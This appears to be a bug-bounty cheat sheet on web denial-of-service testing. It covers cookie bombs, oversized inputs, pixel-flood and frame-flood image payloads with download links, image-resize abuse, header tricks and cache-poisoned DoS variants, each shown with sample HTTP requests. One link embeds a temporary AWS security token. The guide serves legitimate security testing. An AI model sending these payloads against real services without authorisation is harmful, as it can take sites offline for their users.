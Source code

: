 # Denial of Service

## Introduction
Denial of Service is a type of attack on a service that disrupts its normal function and prevents other users from accessing it

## Where to find
This vulnerability can appear in all features of the application. Depending on how to exploit it, for example in the file upload feature, you can upload very large files

## How to exploit
1. Cookie bomb
   
```
https://target.com/index.php?param1=xxxxxxxxxxxxxx
```
After input "xxxxxxxxxxxxxx" as a value of param1, check your cookies. If there is cookies the value is "xxxxxxxxxxxxxxxxxxxxxx" it means the website is vulnerable

2. Try input a very long payload to form. For example using very long password or using very long email
```
POST /Register HTTP/1.1
Host: target.com
[...]

username=victim&password=aaaaaaaaaaaaaaa
```

3. Pixel flood, using image with a huge pixels

Download the payload: [Here](https://daffa.tech/lottapixel3.jpg)

4. Frame flood, using GIF with a huge frame

Download the payload: [Here](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/000/000/136/902000ac102f14a36a4d83ed9b5c293017b77fc7/uber.gif?response-content-disposition=attachment%3B%20filename%3D%22uber.gif%22%3B%20filename%2A%3DUTF-8%27%27uber.gif&response-content-type=image%2Fgif&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQ245MJJPA%2F20200910%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200910T110848Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEFMaCXVzLXdlc3QtMiJHMEUCIEC768ifpRHeEUucuNuVL%2FdcSsWMnGeNp%2FMhKs6afB01AiEAiZOP%2FwMaeQMITUni3aFcACIOqOHnWHgLKuXHRrb5LooqtAMIXBABGgwwMTM2MTkyNzQ4NDkiDHHy9PJ2ccl9cmsvyCqRA6bliBHBMPXR6NYflM%2BCXCCQ5VLdPCATpmLs9DhVuYsjxR3JUtVHnBvtfEYYWDWWsLoC3xuzmug5ycrAvqK%2BTYDYO7l4HD1rXfyEBkR579ZlUFab6bOL4i8nDqblun%2FeV253Sgd6GzL4E%2FXmUN%2FC6qNydSd9hp2fLoyNjqob6o5zJjmnqvZsq50ROOZwf1idkDtr163qeVZERnan7aY9rM%2FsX4iVdE4wY0rLw1maGRuDF2aLVCxPB681htsHt%2FpoZ18QY7LjcbNjbjB4PgXLd1sm5zQ4q9mPVxTZPvzo9BJCh7l6kMLHCtJXOXfrvvN8UBgIqr1KXvodzv7FRQYcvEpfw4pwCTWzBs8VeEcwS9gjOXFMNLNI8SZ9V76VQ5KrOIpKhzM9UQQN3DVzY3SwMHydX%2B%2BYcQTt%2FjvqTkorsltqob2g5E1K0U8btRLBvBqOo0Vbr75zLcLUUomDBQzSNSvJgTN43huYmkZxBpWAAId72Tt6m56aFQLXkCKGSoMxYjrrVW9jc37pVl3lZU7FIX0AMIuN6PoFOusBpDCrjFwR1Y7t7W8wLapYjI6yOkkvWTFwWvx38jZl9okqo5xchKolmKxKX7cfGPIyuUmSXc1xa0nKwYeOYlhQZfyI0NobqyWW81ITuuUjsBxULuqrXqfVl0PTjTTpqe%2FHvU6wYSE358XfggtcqaH9PPgNDOejgv%2FLnh9AH9nyqIWuaCu865IfAOupVVzFzQilyB2LDyQtTS4Kp5dHyEAibRQlqeKHWOkUE2mQefAaTxKLRKrs0mJQYSuC%2B4LQEB3Cq9Nhj5HN%2BYT7A7CDLrvyChyfYXQZYr0lR1jN91Yd7SBe2jB1Qls%2Bx%2FEUlQ%3D%3D&X-Amz-Signature=910a3812cf3b69f6fa72f39a89a6df2f395f8d17ef8702eeb164a0477c64fff5)

5. Sometimes in website we found a parameter that can adjust the size of the image, for example
```
https://target.com/img/vulnerable.jpg?width=500&height=500
```
Try change "500" to "99999999999"
```
https://target.com/img/vulnerable.jpg?width=99999999999&height=99999999999
```

6. Try changing the value of the header with something new, for example:
```
Accept-Encoding: gzip, gzip, deflate, br, br
```

7. Sometimes if you try bug "No rate limit", after a long try it. The server will go down because there is so much requests

8. ReDoS (Regex DoS) occurs due to poorly implemented RegEx

9. CPDoS ([Cache Poisoned Denial of Service](https://cpdos.org/))
- HTTP Header Oversize (HHO)
  
  A malicious client sends an HTTP GET request including a header larger than the size supported by the origin server but smaller than the size supported by the cache
  ```
  GET /index.html HTTP/1.1
  Host: victim.com
  X-Oversized-Header-1: Big_Value 
  ```
  The response is
  ```
  HTTP/1.1 400 Bad Request
  ...
  Header size exceeded
  ```
- HTTP Meta Character (HMC)
  
  this attack tries to bypass a cache with a request header containing a harmful meta character. Meta characters can be, e.g., control characters such as line break/carriage return (\n), line feed (\r) or bell (\a).

  ```
  GET /index.html HTTP /1.1
  Host: victim.com
  X-Meta-Malicious-Header: \r\n
  ```
  The response is
  ```
  HTTP/1.1 400 Bad Request
  ...
  Character not allowed
  ```
- HTTP Method Override (HMO)

  There are several headers present in HTTP Standard that allow modifying overriding the original HTTP header. Some of these headers are:
  ```
  1. X-HTTP-Method-Override
  2. X-HTTP-Method
  3. X-Method-Override
  ```
  The header instructs the application to override the HTTP method in request.
  ```
  GET /index.php HTTP/1.1
  Host: victim.com
  X-HTTP-Method-Override: POST
  ```
  The response is
  ```
  HTTP/1.1 404 Not Found
  ...
  POST on /index.php not foudn
  ```

- X-Forwarded-Port
  ```
  GET /index.php?dontpoisoneveryone=1 HTTP/1.1
  Host: www.hackerone.com
  X-Forwarded-Port: 123
  ```

- X-Forwarded-Host
  ```
  GET /index.php?dontpoisoneveryone=1 HTTP/1.1
  Host: www.hackerone.com
  X-Forwarded-Host: www.hackerone.com:123
  ```
  
![Response DoS](https://portswigger.net/cms/images/6f/83/45a1a9f841b9-article-screen_shot_2018-09-13_at_11.08.12.png)

## References
- [Hackerone #840598](https://hackerone.com/reports/840598)
- [Hackerone #105363](https://hackerone.com/reports/105363)
- [Hackerone #390](https://hackerone.com/reports/390)
- [Hackerone #400](https://hackerone.com/reports/400)
- [Hackerone #751904](https://hackerone.com/reports/751904)
- [Hackerone #861170](https://hackerone.com/reports/861170)
- [Hackerone #892615](https://hackerone.com/reports/892615)
- [Hackerone #511381](https://hackerone.com/reports/511381)
- [Hackerone #409370](https://hackerone.com/reports/409370)
- [CPDoS](https://cpdos.org/)
